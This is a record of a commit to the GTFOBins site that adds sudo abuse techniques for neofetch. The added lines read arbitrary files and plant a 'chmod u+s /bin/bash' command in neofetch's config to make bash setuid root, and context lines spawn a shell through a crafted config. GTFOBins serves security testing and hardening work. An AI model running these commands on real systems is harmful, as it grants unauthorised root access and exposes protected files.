

Before and after one commit to GTFOBins/GTFOBins.github.io, a Jekyll site: the page built from _gtfobins/neofetch.md, in a window 1280 px wide. Shown: the whole page at 94% size. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; before the commit the page ends 900 px from its top, so only the background shows below that.

Commit message:
Update neofetch

```diff
--- a/_gtfobins/neofetch.md
+++ b/_gtfobins/neofetch.md
@@ -12,6 +12,13 @@ functions:
         neofetch --ascii $LFILE
   sudo:
     - code: |
+        LFILE=file_to_read
+        sudo neofetch --ascii $LFILE
+    - code: |
+        export XDG_CONFIG_HOME=$HOME/.config
+        echo "chmod u+s /bin/bash" > $XDG_CONFIG_HOME/neofetch/config.conf
+        sudo neofetch \"\"
+    - code: |
         TF=$(mktemp)
         echo 'exec /bin/sh' >$TF
         sudo neofetch --config $TF
```
